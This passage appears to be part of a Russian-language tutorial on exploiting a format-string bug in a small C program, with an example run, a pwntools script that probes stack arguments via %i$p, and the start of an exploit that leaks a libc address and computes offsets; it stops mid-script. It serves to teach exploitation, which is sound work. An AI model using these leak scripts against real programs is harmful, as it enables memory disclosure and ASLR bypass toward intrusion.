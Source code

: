#### Что происходит?

• `fgets` записывает до 99 байт из `stdin` в `buf`, добавляя `\0`;

• `printf(buf)`; воспринимает содержимое buf как форматную строку;

• спецификаторы `%x`, `%p`, `%s` в этой строке «хватают» из места вызова `printf` данные из регистров/стека (`return‑address`, сохранённые `rbp`, аргументы в регистрах и на стеке).

#### Пример запуска

``` bash
$ echo -e "AAAA %08x %08x %08x" | ./leak
AAAA 41414141 deadbeef 7fffffffe2b0
```

• `41414141` — ASCII‐коды символов `AAAA`;

• последующие 4‑байтные значения — слова, считанные из стека.

### 3.2 Автоматизация поиска индекса

Чтобы узнать, какой по счёту аргумент содержит нужный нам указатель, используем конструкцию `%<i>$p`:

```python
from pwn import process

p = process("./leak")
for i in range(1, 16):
    payload = f"%{i}$p".encode()   # “i-ый аргумент как указатель”
    p.sendline(payload)
    out = p.recvline().strip()
    print(f"{i:2d}: {out}")
p.close()
```

`%{i}$p` заставляет `printf` взять i‑ый аргумент и распечатать его как `(void*)` (обычно 16‑значный hex с префиксом 0x).

В результате можно увидеть таблицу:

```yaml
 1: 0x7ffff7dd18a0   ← часто адрес libc
 2: 0x41414141
 3: 0x7fffffffe2b0   ← возможно, return‑address
 ...
```

По характеру значений можно определить, какой индекс даёт утечку нужного адреса.

### 3.3 Извлечение и расчёт base libc

После того как был найден индекс `i`, делающий leak, собираем полный эксплойт:

```python
from pwn import process, ELF, u64

# 1. Запускаем уязвимую программу
p = process("./leak")

# 2. Получаем утечку: i-й аргумент как строка вида b'0x7ffff7dd18a0'
i = 1  # замените на ваш найденный индекс
p.sendline(f"%{i}$p".encode())
leak_line = p.recvline().strip()
leak = int(leak_line, 16)        # Преобразуем hex-строку в число

# 3. Загружаем локальную libc для получения оффсетов
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_off = libc.symbols['puts']   # например, 0x080890
```